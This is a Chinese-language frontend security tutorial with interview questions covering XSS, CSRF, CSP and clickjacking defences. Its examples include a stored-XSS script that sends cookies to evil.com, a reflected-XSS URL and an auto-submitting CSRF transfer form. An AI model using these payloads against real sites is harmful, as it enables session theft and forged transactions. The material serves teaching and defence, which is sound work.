

# 4.7 Web 安全(XSS / CSRF / CSP)

## 引言:前端不是"安全绝缘体"

前端常见攻击两大族:**XSS(注入脚本)** 与 **CSRF(冒用身份发请求)**。深挖要懂"防御的底层逻辑"、危险 API 清单,以及 **SameSite** 的三种值。

---

## 一、XSS:跨站脚本攻击

**本质:把恶意脚本注入页面,借受害浏览器执行,窃取 cookie/冒充操作。**

### 1.1 三种类型(含攻击示例)

| 类型 | 注入位置 | 触发 |
|------|---------|------|
| **存储型** | 存服务器(评论)→所有人访问执行 | 最严重 |
| **反射型** | 藏 URL 参数,点恶意链接触发 | 需诱导 |
| **DOM 型** | JS 把不可信数据写进 innerHTML | 纯前端 |

**① 反射型(藏 URL):**

```html
<!-- 攻击者发给你这个链接,服务器把 q 原样输出到页面 -->
https://site.com/search?q=<script>alert(document.cookie)</script>
```

**② 存储型(存评论):**

```js
// 攻击者在评论区提交这段脚本 → 存进数据库
<script>fetch('https://evil.com/steal?cookie=' + document.cookie)</script>
// 任何用户打开评论区,脚本就执行,把 cookie 发给攻击者
```

**③ DOM 型(纯前端):**

```js
// 从 location.hash 取值,不经过滤写进 innerHTML
const q = location.hash.slice(1);
el.innerHTML = q;   // ❌ 若 hash 是 
```

### 1.2 危险 API 清单(不可信数据千万别碰)

```js
el.innerHTML = userInput;        // ❌ HTML 注入
document.write(userInput);       // ❌ 直接写文档
eval(userInput);                 // ❌ 执行字符串
new Function(userInput);         // ❌ 同上
setTimeout("alert(1)", 0);       // ❌ 字符串形式 setTimeout 会 eval
// React
<div dangerouslySetInnerHTML={{ __html: userInput }} />   // ⚠️ 高危
```

### 1.3 防御四件套

1. **输出转义**:数据当文本(用 `textContent`),不当 HTML
2. **不用 eval/new Function** 执行不可信数据
3. **富文本白名单清洗**(DOMPurify)
4. **Cookie HttpOnly**(JS 读不到)+ **CSP** 兜底

```js
el.textContent = userInput;   // ✅ 当纯文本, 不会执行
```

---

## 二、CSRF:跨站请求伪造



> **CSRF 利用的是"浏览器自动带 cookie",不是"偷 cookie"**(偷 cookie 是 XSS 干的)。

### 2.1 恶意页面长什么样

```html
<!-- evil.com 上:受害者一访问,浏览器就自动发转账请求(带 bank.com 的 cookie)-->


<!-- 或自动提交 POST 表单 -->
<form action="https://bank.com/transfer" method="POST">
  <input name="to" value="attacker">
  <input name="amount" value="10000">
</form>
<script>document.forms[0].submit();</script>
```

### 2.2 防御

| 方法 | 原理 |
|------|------|
| **CSRF Token** | 请求带随机 token,攻击者跨站拿不到 |
| **SameSite Cookie** | 跨站请求不带 cookie |
| **校验 Origin/Referer** | 检查请求来源 |
| 关键操作 POST + 二次验证 | 提高门槛 |

**SameSite 三值:**

```http
Set-Cookie: session=xxx; SameSite=Lax
```

| 值 | 跨站是否带 cookie | 场景 |
|----|------------------|------|
| `Strict` | **绝不**带 | 最严,但站外点链接会"掉登录" |
| `Lax`(默认推荐) | 顶级导航(GET 链接)带,其他不带 | 平衡:防 CSRF 又不破坏直达链接 |
| `None` | 都带 | 需配合 `Secure`(仅 HTTPS) |

---

## 三、CSP(Content Security Policy,内容安全策略)

用响应头白名单,告诉浏览器"允许加载哪些资源、禁止哪些":

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' trusted-cdn.com;
  img-src *;
```

```html
<!-- 也可用 meta 标签(能力受限)-->
<meta http-equiv="Content-Security-Policy" content="script-src 'self'">
```

> **即使有 XSS 注入,内联/非法源脚本也会被浏览器拒绝执行**——CSP 是"最后一道墙"。

---

## 四、其他安全头 + 点击劫持

```http
X-Frame-Options: DENY / SAMEORIGIN     ; 防点击劫持(被 iframe 嵌入)
X-Content-Type-Options: nosniff        ; 防 MIME 嗅探
Referrer-Policy: no-referrer           ; 控 Referer 泄露
Strict-Transport-Security (HSTS)       ; 强制 HTTPS
Set-Cookie: ...; HttpOnly; Secure; SameSite=Lax
```

**点击劫持(Clickjacking):** 攻击者把目标网站用**透明 iframe** 盖在自己的诱饵按钮上,用户以为点的是"领取奖励",实际点的是 iframe 里的"转账"按钮。防御:`X-Frame-Options` / CSP 的 `frame-ancestors` 禁止被嵌入 iframe。

```http
Content-Security-Policy: frame-ancestors 'none';   ; 现代替代 X-Frame-Options
```

---

## 五、小结

```
XSS:注入脚本(存储/反射/DOM)→ 输出转义/eval禁/白名单/HttpOnly/CSP
危险 API:innerHTML/document.write/eval/new Function/dangerouslySetInnerHTML
CSRF:借登录态伪造请求(cookie 自动带)→ CSRF Token/SameSite/Origin
CSP:资源白名单,最后兜底;SameSite:Strict/Lax(推荐)/None+Secure
点击劫持:透明 iframe 覆盖 → X-Frame-Options / frame-ancestors
辨析:XSS="执行",CSRF="冒用身份发请求"
```

---

## 六、面试题

**Q1:XSS 和 CSRF 的本质区别?**

XSS 是"**注入脚本**"——要在受害浏览器里**执行**恶意代码(窃取/操作);CSRF 是"**伪造请求**"——利用 cookie 自动带,让受害者**不知情发请求**,攻击者拿不到响应内容,只借身份做事。

**Q2:为什么 HttpOnly cookie 能防 XSS 却防不了 CSRF?**

`HttpOnly` 让 JS **读不到** cookie(XSS 偷不到),但**请求时浏览器仍自动带** cookie——CSRF 恰恰利用"自动带"。所以 HttpOnly 对 CSRF 无效,防 CSRF 靠 `SameSite` + CSRF Token。

**Q3:`SameSite=Strict` 和 `Lax` 的区别?**

`Strict` 任何跨站请求都不带 cookie(最严,但站外点链接会掉登录);`Lax` 只有"顶级导航 GET"(点链接打开)带,其余(iframe/图片/AJAX POST)不带——默认推荐,平衡安全与体验。

**Q4:CSP 如何防御 XSS?**

CSP 用 `script-src` 白名单限制可执行脚本来源,`'self'` 只允许同源,内联脚本被禁(除非 nonce/hash)。于是即使攻击者注入了 `<script>`/事件处理器,浏览器也**拒绝执行**。

**Q5:如何从"前端"角度防御 XSS?三条**

① 用户输入转义/用 `textContent` 渲染,不直接 `innerHTML`;② 不用 `eval`/`new Function` 执行不可信数据;③ 富文本用 DOMPurify 白名单清洗;④ 配合 CSP 与 HttpOnly cookie 兜底。

**Q6:什么是"存储型 XSS"?为什么它最危险?**

恶意脚本被**存进服务器**(评论、昵称),任何用户访问相关页面时都被执行。危险在于:**无需诱导点击**,所有访问者自动中招,影响面最大。

**Q7:哪些 API 容易造成 XSS?为什么危险?**

`innerHTML`/`document.write`/`eval`/`new Function`/`dangerouslySetInnerHTML` 等——它们把**字符串当 HTML 或代码**执行,不可信数据进来就被解析成脚本。要渲染用户内容用 `textContent`,要富文本用 DOMPurify 白名单。

**Q8:什么是点击劫持?怎么防?**

攻击者用**透明 iframe** 把目标网站盖在诱饵按钮上,用户以为点的是"领奖",实际点了 iframe 里的危险按钮。防御:响应头 `X-Frame-Options: DENY` 或 CSP 的 `frame-ancestors 'none'`,禁止被嵌入 iframe。

---

📎 参考:[OWASP《XSS》](https://owasp.org/www-community/attacks/xss/)、[OWASP《CSRF》](https://owasp.org/www-community/attacks/csrf)、[MDN《CSP》](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/CSP)、[MDN《SameSite cookies》](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Set-Cookie/SameSite)